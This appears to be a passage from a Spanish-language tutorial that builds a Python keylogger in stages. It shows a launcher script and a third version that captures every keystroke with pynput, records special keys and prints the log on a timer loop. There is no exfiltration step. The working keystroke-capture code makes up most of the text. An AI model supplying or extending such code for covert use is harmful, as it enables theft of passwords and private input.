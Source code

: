 **Archivo:** `main.py`

```python
#!/usr/bin/env python3
from keylogger_v2 import Keylogger

if __name__ == '__main__':
    my_keylogger = Keylogger()
    my_keylogger.start()
```

### Aporta

- Encapsula la lógica en la clase `Keylogger`.
    
- Mejora la organización del código.
    

### Limitaciones

- Todavía no hay forma de detener `threading.Timer`.
    
- Sin manejo de señales.
    

---

## 3) Versión 3 — Shutdown ordenado con señal SIGINT

**Archivo:** `keylogger_v3.py`

```python
#!/usr/bin/env python3
import pynput.keyboard
import threading

class Keylogger:
    def __init__(self):
        self.log = ""
        self.request_shutdown = False
        self.timer = None

    def pressed_key(self, key):
        try:
            self.log += str(key.char)
        except AttributeError:
            special_keys = {key.space: " ", key.backspace: " Backspace ", key.enter: " Enter ", key.shift: " Shift ", key.ctrl: " Ctrl ", key.alt: " Alt "}
            self.log += special_keys.get(key, f" {str(key)} ")
        print(self.log)

    def report(self):
        self.log = ""
        if not self.request_shutdown:
            self.timer = threading.Timer(5, self.report)
            self.timer.start()

    def shutdown(self):
        self.request_shutdown = True
        if self.timer:
            self.timer.cancel()

    def start(self):
        keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
        with keyboard_listener:
            self.report()
            keyboard_listener.join()
```